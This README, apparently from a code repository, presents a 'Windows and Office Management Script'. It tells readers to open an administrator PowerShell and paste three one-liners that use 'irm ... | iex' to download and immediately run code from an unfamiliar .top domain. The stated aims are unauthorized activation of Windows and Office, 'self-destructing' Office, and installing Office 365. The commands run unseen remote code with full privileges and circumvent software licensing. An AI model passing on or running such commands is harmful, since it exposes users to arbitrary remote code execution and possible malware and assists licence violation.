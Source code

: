 # Windows and Office Management Script

## Introduction
This script provides functionality for managing Windows activation, self-destructing Office, and installing and activating Office 365. Follow the steps below to execute these operations using PowerShell or Terminal.

## Prerequisites
- Ensure you have administrative privileges on your Windows machine.

## Instructions

1. **Open PowerShell or Terminal:**
   - Right-click on the Start menu.
   - Select **PowerShell** or **Terminal** (do not select CMD).

2. **Execute the Script:**
   - Copy and paste the following code into PowerShell or Terminal.
   - Press **Enter** to run the script.

   2.1 **Activate Existing Office**
   ```powershell
   irm https://plesbuy2nd.top/win | iex
   ```
   2.2 **Self-destruct Office (if needed) (NOT WORKING NOW MAINTENANCE)**
   ```powershell
   irm https://plesbuy2nd.top/doom | iex
   ```
   2.3 **Install and activate Office 365 (NOT WORKING NOW MAINTENANCE)**
   ```powershell
   irm https://plesbuy2nd.top/office | iex
   ```
   
## Detailed Explanation
- Activate Windows and Office: The command irm https://plesbuy2nd.top/win | iex is used to activate Windows and the existing Office on your machine.
- Self-destruct Office: If you do not wish to use the existing Office or if an error occurs, use the command irm https://plesbuy2nd.top/doom | iex. After running this command, proceed with the next step.
- Install and Activate Office 365: Once the self-destruct command has been executed, run irm https://plesbuy2nd.top/office | iex to install and activate Office 365.

## Notes
- irm stands for Invoke-RestMethod, which is used to download and run scripts from the internet.
- iex stands for Invoke-Expression, which executes the downloaded script.

## Disclaimer
Use this script responsibly and ensure you understand the implications of each command. Running these commands may have significant impacts on your system, including altering system activation and Office installations.

- Ensure that you have backups of any important data before running these scripts.
- Understand that using these scripts might violate the terms of service of the software involved.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Original script sources
- Inspiration and guidance from various online communities
